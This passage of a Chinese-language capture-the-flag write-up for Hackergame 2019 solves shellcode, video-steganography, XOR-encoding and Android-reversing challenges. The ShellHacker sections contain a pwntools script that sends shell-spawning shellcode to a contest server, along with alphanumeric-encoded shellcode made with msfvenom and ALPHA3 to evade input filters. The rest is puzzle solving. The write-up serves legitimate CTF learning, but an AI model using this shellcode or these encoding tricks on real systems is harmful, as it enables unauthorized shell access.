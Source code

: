 ```py
from pwn import *
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
#print(shellcode)
token = ""
#sh = process('chall1')

sh = remote('202.38.93.241',10000)
sh.recvuntil("Please input your token: ")
sh.sendline(token)

sh.send(shellcode)
sh.interactive()
```
### ShellHacker2
32位程序，逆向得知call地址为eax
限制输入为数字和大写字母
使用`msfvenom`对shellcode编码
得到
```py
shellcode="PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIRJSXCXVO6OVOCCBH6OE2BI2NRJTKV8MYM36QHILY8MK0AA"
```
发送即可getshell

### ShellHacker3
64位程序
限制输入为可打印字符
使用`[ALPHA3](https://github.com/SkyLined/alpha3)`对shellcode编码：
```
python2 ALPHA3.py x64 ascii mixedcase RAX --input=sc.bin
```
得到
```py
shellcode="Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C101k2m0h2r4y5p164y390U050C"
```
发送即可getshell

## 三教奇妙夜
解压出一个视频，使用脚本逐帧提取，把0x0为黑色（rgb为[0 0 0]）的图片提取出来
然后拼接图片中文字(字体为`Dejavu Sans Mono`)，即可得到flag

## 小 U 的加密
异或`0x39`得到一个midi文件(文件头`4D 54 68 64`)，使用`Audacity`打开得到flag
注：flag 中的字符串全部为英文小写字符。
## 献给最好的你
`com.hackergame.eternalEasterlyWind.data.LoginDataSource`类中的login方法
大致流程为：
对输入的密码进行base64编码，然后把该字符串大小写互转，与`pass1`:`AgfJA2vYz2fTztiWmtL3AxrOzNvUiq==`进行对比
一致则进入下一流程：
调用`logout`函数对`rawpassword`和一个自己数组进行运算，得到flag
所以对`pass1`进行大小写互转操作，得到`hackergame2019withfun!`
输入即可得到flag
（个人是把代码copy出来，直接调用`logout`函数输出的）
